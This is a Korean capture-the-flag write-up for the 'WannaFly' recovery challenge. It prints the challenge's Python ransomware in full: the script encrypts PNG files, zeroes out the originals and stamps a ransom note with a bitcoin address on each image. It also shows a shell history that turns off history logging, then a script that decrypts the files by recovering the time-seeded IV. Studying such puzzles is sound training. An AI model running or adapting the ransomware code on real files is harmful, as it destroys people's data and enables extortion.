


## WannaFly (100)

> My daughter Kimberly her computer got hacked. Now she lost all her favorite images. Can you please help me recover those images?

 > [wannafly.tgz](./wannafly.tgz)  `7509faed92d67a242068de6605659ca1`

먼저 `Pictures`폴더에 가보면 암호화된 이미지 파일들이 있다.



`...`파일을 보면 암호화 소스가 나와있고 `.bash_history`를 보면 실행 인자를 알 수 있다.

### ...
```python
#!/usr/bin/env python

import random, string, sys, os
from time import time
from Crypto.Cipher import AES
import base64
from PIL import Image
from PIL import ImageFont
from PIL import ImageDraw
from PIL import ImageFilter
import textwrap
from io import BytesIO

IMG="""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"""

MSG="""This Image is encrypted by WannaFly Ransom-ware. If you want your original image back, feel free to contact us on sha2017ctf@gmail.com and make a bitcoin payment of 0.1 bitcoin to address 1QCc1EYncxTeSfTKpaCZ2hvMDwXULKRVWe"""

def get_iv():
    iv = ""
    random.seed(int(time()))
    for i in range(0,16):
        iv += random.choice(string.letters + string.digits)
    return iv

def encrypt(m, p):
    iv=get_iv()
    aes = AES.new(p, AES.MODE_CFB, iv)
    return base64.b64encode(aes.encrypt(m))

def decrypt(m, p, i):
    aes = AES.new(p, AES.MODE_CFB, i)
    return aes.decrypt(base64.b64decode(m))

def find_images():
    i = []
    #for r, d, f in os.walk(os.environ['HOME']):
    for r, d, f in os.walk("."):
        for g in f:
            if g.endswith(".png"):
                i.append((os.path.join(r, g)))
    return i

def encrypt_images():
    for i in find_images():
        img = Image.open(i).filter(ImageFilter.GaussianBlur(radius=18))
        draw = ImageDraw.Draw(img)
        font = ImageFont.truetype("/usr/share/fonts/truetype/freefont/FreeSans.ttf", 18)
        text = textwrap.wrap(MSG, width=60)
        W, H = img.size
        bird = Image.open(BytesIO(base64.b64decode(IMG)))
        bw, bh = bird.size
        offset = ((W-bw)/2, (H-bh)/2 - 80)
        img.paste(bird, offset, bird)
        pad = 0
        for line in text:
            w, h = draw.textsize(line, font=font)
            draw.text(((W-w)/2, (H-h)/2 + pad), line, font=font, fill="white")
            pad += 20
        img.save('/tmp/sha.png')
	encrypt_image(i)

def encrypt_image(img):
    data = open(img, 'r').read()
    encrypted_img = encrypt(data, sys.argv[1])
    blurred_img = open('/tmp/sha.png', 'r').read()
    stat = os.stat(img)
    with open(img, 'r+') as of:
        of.write('\0' * stat.st_size)
        of.flush()
    open(img, 'w').write(blurred_img + "\n" + encrypted_img)

if __name__ == '__main__':
    if len(sys.argv) != 2:
        print "Usage: %s <pass>" % sys.argv[0]
    else:
        encrypt_images()
```

### .bash_history
``` bash
unset HISTFIL
ls -la
pwd
chmod +x ...
./... Hb8jnSKzaNQr5f7p
ls -Rla
```

`get_iv()`를 보면 현재 시간을 기준으로 `random seed`를 맞춰주고 있다.

복호화 할때는 그 파일의 ``마지막으로 수정된 시간``을 이용하면 암호화 당시의 `random seed`를 맞춰줄 수 있다.

### decrypt.py

```python
import os
import os.path
import random
import string
import base64
from Crypto.Cipher import AES

def get_iv(mtime):
    iv = ''
    random.seed(int(mtime))
    for i in range(0,16):
        iv += random.choice(string.letters + string.digits)
    return iv

def decrypt(m, iv):
    aes = AES.new('Hb8jnSKzaNQr5f7p', AES.MODE_CFB, iv)
    return aes.decrypt(base64.b64decode(m))

IEND = '49454E44AE4260820A'.decode('hex')
path = './Pictures/'
files = os.listdir('./Pictures')

for file in files:
    file = path + file
    mtime = os.path.getmtime(file)
    iv = get_iv(mtime)

    data = open(file).read()
    offset = data.find(IEND)
    data = data[offset + len(IEND):]

    f = open(file + '.dec.png', 'w')
    f.write(decrypt(data, iv))
    f.close()
```


